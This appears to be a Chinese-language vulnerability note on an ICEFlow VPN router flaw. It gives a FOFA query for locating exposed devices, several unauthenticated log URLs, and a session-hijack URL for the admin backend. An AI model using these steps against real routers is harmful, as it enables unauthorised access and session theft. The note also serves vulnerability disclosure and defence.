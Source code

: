 # ICEFlow-VPN-信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

> [!NOTE]
>
> ICEFlow VPN

## FOFA

> [!NOTE]
>
> title="ICEFLOW VPN Router"

## 漏洞复现

可访问的日志 Url

```
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](ICEFlow-VPN-信息泄露漏洞.assets/1627363054171564.jpg)

根据日志信息获得session后，可利用实时登录系统管理后台：

```
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

## Goby & POC

> [!NOTE]
>
> ICEFlow-VPN-信息泄露漏洞

![](ICEFlow-VPN-信息泄露漏洞.assets/1627363054495123.jpg)

## 参考文章

https://www.uedbox.com/post/18720/